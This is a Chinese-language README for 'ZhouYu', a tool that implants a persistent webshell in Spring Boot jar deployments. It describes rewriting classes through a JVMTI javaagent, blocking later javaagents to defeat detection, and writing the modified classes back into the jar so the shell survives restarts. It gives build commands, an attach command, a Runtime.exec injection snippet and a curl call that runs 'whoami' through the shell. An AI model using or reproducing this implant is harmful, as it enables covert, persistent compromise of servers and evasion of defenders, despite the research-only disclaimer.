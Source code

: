 *工具仅用于安全研究，禁止使用工具发起非法攻击，造成的后果使用者负责*

### ZhouYu -> 周瑜

Java - SpringBoot 持久化 WebShell

背景：后Spring时代，SpringBoot jar部署模式下，一般没有了JSP，所有的模板都在jar内，当大家都热衷于内存马的时候，发现很容易被查杀（网上查杀方式无外乎都是利用JVMTI重加载class的javaagent方式），并且重启后丢失！

1. ZhouYu带来新的webshell写入手法，通过javaagent，利用JVMTI机制，在回调时重写class类，插入webshell，并通过阻止后续javaagent加载的方式，防止webshell被查杀

2. 修改的class类插入webshell后，通过持久化到jar进行class替换，达到webshell持久化，任你如何重启都无法甩掉

### 一、打包编译

命令：
```text
gradle :agent:shadowJar
```
或
```text
./gradlew :agent:shadowJar
```

编译后得到 agent/build/libs/agent-1.0-SNAPSHOT-all.jar，即ZhouYu.jar

### 二、使用方式

两种场景：

1. 当你知道jvm pid时，并且能写入临时文件（ZhouYu.jar），一般这种场景不太常见，测试场景比较多
```text
java -jar ZhouYu.jar 23232，23232为需要attach的jvm进程号！
```

2. 能执行一小段代码（内存shell的原理一般是反序列化时加载一段恶意字节码）

先把编译后得到的ZhouYu.jar写到临时目录，例：/tmp/ZhouYu.jar

接着执行下面代码：
```
try {
  String pid = java.lang.management.ManagementFactory.getRuntimeMXBean().getName();
  int indexOf = pid.indexOf('@');
  if (indexOf > 0) {
    pid = pid.substring(0, indexOf);
    Runtime.getRuntime().exec(String.format("java -jar /tmp/ZhouYu.jar %s", pid));
  }
} catch (Throwable throwable) {

}
```

3. 执行命令
```
curl -XGET "http://127.0.0.1:8080?cmd=whoami"
```

### WARNNING

#### 为了防止出现生产事故，在对原有jar（A.jar）进行替换修改前，会对其进行备份，备份到当前目录下（命名为.A.jar.bk）